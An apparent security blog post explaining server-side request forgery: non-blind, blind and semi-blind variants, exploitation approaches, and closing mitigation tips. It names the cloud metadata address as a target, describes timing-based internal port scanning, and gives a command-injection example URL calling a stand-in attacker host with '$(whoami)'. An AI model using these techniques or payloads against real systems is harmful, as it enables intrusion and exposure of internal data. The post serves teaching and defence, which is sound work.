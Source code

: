 ```yaml
---
title: 'SSRF Vulnerabilty'
date: 2023-02-18
permalink: /posts/2023/02/SSRF/
tags:
  - Vulnerability
  - OWASP TOP 10
  - ssrf
---
```

What is SSRF ?

SSRF stands for server-side request forgery. It is one of the most popular web security vulnerabilities exploited by hackers and security researchers.

It is a security vulnerability where an attacker can abuse the available functionalities in a server-side application to access internal server files, resources leading to potentially sensitive information disclosure.


**Types of SSRF**
======

**Non-Blind SSRF: **
======
This is a type of SSRF where an application fetches the requested resource and directly presents it on the front end. The whole output is clearly visible to the user/attacker.

Blind SSRF:
======
 This is an interesting and very common type of SSRF where the HTTP request for requesting resources is made by the server but the output isn’t visible on the frontend. In simple words, the resource is requested by the server but not displayed to the user/attacker. There are certain ways of exploiting this type of SSRF vulnerabilities and we will cover them further in this blog.

Semi-blind SSRF:
====== 
In this type of SSRF, a resource is requested but the complete output isn’t visible to the user but instead it can be file metadata, parts of the file, complete file path in the form of stack trace errors, and more.

This is called semi blind because the data is partially available, unlike blind SSRF where nothing is visible on the frontend. To exploit semi-blind SSRF, similar ways of exploiting blind SSRFs can be used.
 

Exploitation
======
We will now cover the exploitation of the different types of SSRF cases explained above. Keep in mind that there can be unique methods of exploiting SSRF because the behavior of the application matters a lot while exploiting and validating security issues so a straightforward method may not always work.

**Non-Blind SSRF**
The exploitation of a regular non-blind SSRF is simple as we expect the output to be displayed directly on our screens.

It is usually when an application sends a request to fetch a resource located in the same server itself or sometimes inside external backend servers, IP addresses and virtual hostnames can be used by the web application to reach out to the external servers. If we know the address of the resource we want to access, we can use that URL/path to make the application fetch the resource and simply display it to us on the frontend.

A common scenario here is when an application is hosted on AWS or Google Cloud or other cloud services then there are link-local addresses provided by the cloud service provider to fetch internal metadata. In the case of AWS, the address is http://169.254.169.254 and if an attacker can hit this target from an SSRF vulnerable application hosted on AWS, sensitive information can be exposed.

List of Cloud Metadata fetching endpoints - https://gist.github.com/jhaddix/78cece26c91c6263653f31ba453e273b

Keep in mind that there are cases where an application blocks certain protocols, keywords so you might require bypassing some blacklists, and bypassing WAFs is a whole different topic. (I might write another blog on that one 😉)

Where to look for non-blind SSRFs?

**Non-blind SSRFs** are common in PDF generators, HTML-to-PDF converters as we can use HTML code to create an iframe with the contents of an internally located file.

For hunting SSRFs in web applications, enumerate all the endpoints well because you might get different GET/POST parameters with URL or pathnames and they are usually the most common candidates for testing SSRF vulnerabilities.

An endpoint with GET parameters like ?file= or ?resource= are more likely to be vulnerable to SSRF as the parameter name suggests a potential value of file paths and URLs. Modifying the value to internally located filenames or even external hosts can help in testing SSRFs.

**Blind SSRF**
Similar to non-blind SSRFs, we should look for endpoints where there is any type of URL or file path we can modify.

In blind SSRF, an application takes a resource address and tries to send a request to it. We can host a server we can control and use the address of it to try exploiting blind SSRFs.

If there’s an endpoint that loads images from external URLs then we can start a local server and use the address as the image URL and if the application tries to load the image from our entered URL, we should see an HTTP request in the logs of the server we control.

How to exploit it? The way to exploit blind SSRF isn’t clear. There are many different methods we can try to gain something impactful out of blind SSRFs.

One way to gain something meaningful: A vulnerable application can send a request to external hosts that we control and we can read the request headers inside our log files to gain more information about the internal infrastructure. With this method, internal IP addresses can be exposed and used for further exploitation.

The impact of blind SSRFs is usually dependent on our abilities to chain different issues together. Forming a great exploit chain can help gain something impactful out of a blind SSRF. The deployed infrastructure plays a huge role in it.

There are cases where blind SSRFs are escalated to remote code executions by injecting command injection payloads in remote URLs e.g. https://attacker.com/?param=$(whoami)

I found an awesome GitHub repository with precious knowledge on “Blind SSRF Chains” - https://github.com/assetnote/blind-ssrf-chains

**Cross-Site Port Attack (XSPA)**

Another great way to gain something impactful out of blind SSRFs is by an XSPA attack. It consists of entering the address of am internal hostname from the intranet or the web server itself so that the vulnerable application hits the target and we can determine the availability based upon the response timing or error messages.

Let’s say we enter the IP address 127.0.0.1 with different ports ranging from 8000-9000 in a parameter vulnerable to Blind-SSRF. If the usual response time is 1500ms on almost all the ports but the response from port 8443 is unusually delayed (e.g. 3000ms) then it’s often an indication that internal port 8443 is open and the rest of the ports are closed as 8443 took the longest time to respond.

Using banners, error messages, response timings, we can enumerate the infrastructure specifics, and that’s how you take advantage of blind SSRFs.

Keep in mind that not all applications that send the request to internal/external servers are exploitable, many endpoints are intended to send requests for a smooth experience and different features. To protect such endpoints from being exploited, developers use a proxy or isolated servers just to make those requests and even if an attacker gets information about those proxy servers like the IP address, it’s usually meaningless.

**Semi-blind SSRF**
It is almost similar to blind SSRF but in this type, the information revealed won’t be the complete data from the fetched resource. Instead, you might just get the file path in the server or get clues from the response if the file is available in the server or not. Exploiting this vulnerability can be done by enumerating the availability of internal files and maybe fetching some meta-data. All of it is totally dependent on the nature of the application.


Mitigation Tips
======

**Disabling unnecessary URL schemas** - SSRFs aren’t just about sending HTTP requests to internal/external hosts via the vulnerable application. Many different protocols can be used to fetch data from different kinds of infrastructure set-ups. Most common ones are dict://, gopher://, ftp://, file://. Disabling unnecessary protocols can help by reducing the attack surface for the attackers to fetch data from.


**Response Validation**- The response fetched from the HTTP requests made by the application shouldn’t be served to the user directly. There should be a validation process of data in action so only the expected input and output work.



**Authentication** - Authentication inside the local network can be used to make things harder for the attacker,


**Proxy Servers** - Proxy servers can be used to make requests and fetch resources, the server should be isolated and shouldn’t have access to the critical infrastructure and data.

